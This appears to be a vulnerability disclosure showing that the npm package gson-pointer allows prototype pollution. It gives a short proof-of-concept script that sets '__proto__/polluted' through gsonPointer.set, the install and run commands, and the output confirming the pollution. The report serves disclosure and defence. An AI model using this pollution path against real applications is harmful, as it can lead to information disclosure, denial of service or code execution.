 # Description

`gson-pointer` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var gsonPointer = require("gson-pointer")
var obj = {}
console.log("Before : " + {}.polluted);
gsonPointer.set(obj,'__proto__/polluted','Yes! Its Polluted');
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i gson-pointer # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
